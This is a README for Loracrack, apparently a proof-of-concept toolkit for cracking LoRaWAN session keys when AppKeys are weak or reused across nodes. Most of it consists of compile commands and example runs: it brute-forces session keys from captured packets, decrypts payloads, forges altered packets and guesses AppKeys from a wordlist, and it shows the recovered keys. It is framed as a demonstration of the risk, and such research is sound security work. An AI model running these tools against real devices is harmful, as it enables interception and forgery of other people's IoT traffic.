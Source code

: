 ## Loracrack - LoRaWAN session cracker
##### A PoC for exploiting weak or shared Application Keys
Created by Sipke Mellema

This is a Proof-of-Concept for demonstrating the dangers of using the same AppKey on multiple LoRaWAN nodes.

This repository holds a toolbox for cracking LoRaWAN session keys from captured packets. The attack scenario assumes you know the AppKey, but missed the handshake. Or the AppKey isn't random and can be guessed.

LoRa handshakes use three values to generate the session keys:
`AppNonce | NetID | DevNonce`
AppNonce and NetID are 3 bytes, and DevNonce is 2 bytes. Part of the NetID is known, so that leaves 57-bit entropy. And because of implementation flaws this can get way lower.


#### loracrack
`./loracrack -k <AppKey in hex> -p <raw_packet in hex>`
Cracks session keys if handshake (join-accept) is missed but AppKey is known. Cracking is done by generating session keys and checking the MIC.
```$ gcc loracrack.c includes/*.c -o loracrack -lpthread -lcrypto -O3
$ ./loracrack -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_knownpt
`./loracrack_knownpt -k <AppKey in hex> -p <raw_packet in hex> -d <plain_text in hex>`
Cracks session keys if handshake (join-accept) is missed but AppKey and plaintext are known. Cracking is done by decrypting the FRMPayload and checking the plaintext. It's faster than checking the MIC, since the CMAC uses more AES operations.
```$ gcc loracrack_knownpt.c includes/*.c -o loracrack_knownpt -lpthread -lcrypto -O3
$ ./loracrack_knownpt -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57 -d 33302e3332

4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a
```
```
Optional arguments:
	-t threads
	-v verbose (0, 1 or 2)
	-m maximum AppNonce
```

#### loracrack_decrypt
`./loracrack_decrypt -k <decrypt key in hex> -p <raw_packet in hex>`
Decrypts packet data if session key is known.
```$ gcc loracrack_decrypt.c includes/*.c -o loracrack_decrypt -lcrypto -O3
$ ./loracrack_decrypt -k 4899be88e40088c40abc703fa3ba1195 -p 400267bd018005000142d9f48c52ea717c57

30.32
```

#### loracrack_alterpacket
`./loracrack_alterpacket -p <raw_packet in hex> -a <AppSKey in hex> -n <NwkSKey in hex> -c <Fctn> -d <new data in hex>`
Alters packet with new data, keeps old things like DeviceAddr.
```$ gcc loracrack_alterpacket.c includes/*.c -o loracrack_alterpacket -O3 -lcrypto
$ ./loracrack_alterpacket -p 400267bd018005000142d9f48c52ea717c57 -a 4899be88e40088c40abc703fa3ba1195 -n 04068f88b9feee5385c67e033d911b4a -c 5 -d 33302d3332

400267bd018005000142d9f78c521c78573b
```

#### loracrack_genkeys
`./loracrack_genkeys -k <AppKey in hex> -j <join_packet in hex> -a <accept_packet in hex>`
Generates session keys given handshake (join and accept packets) and AppKey.
```$ gcc loracrack_genkeys.c includes/*.c -o loracrack_genkeys -lcrypto -O3
$ ./loracrack_genkeys -k 88888888888888888888888888888888 -j 0000000000000000002bd61f000ba304000e1ba147157a -a 20adf6e18980952590fc1f7987a6913f35

4e1dcaf4f02fcd2ecbb1cb0d138fc53d 96eb9e13f0a3468ca580707ee688ee19
```

#### loracrack_guessjoin
`./loracrack_guessjoin -p <raw_packet in hex> -f <file with AppKeys in hex>`
Checks if predictable AppKeys are used by checking the MIC on a join packet. AppKeys are taken from a file with hex-encoded AppKeys on new lines.
```$ gcc loracrack_guessjoin.c includes/*.c -o loracrack_guessjoin -lcrypto -O3
$ ./loracrack_guessjoin -p 0000000000000000002bd61f000ba304002f3b5785cf80 -f guessjoin_genkeys/simplekeys

88888888888888888888888888888888
```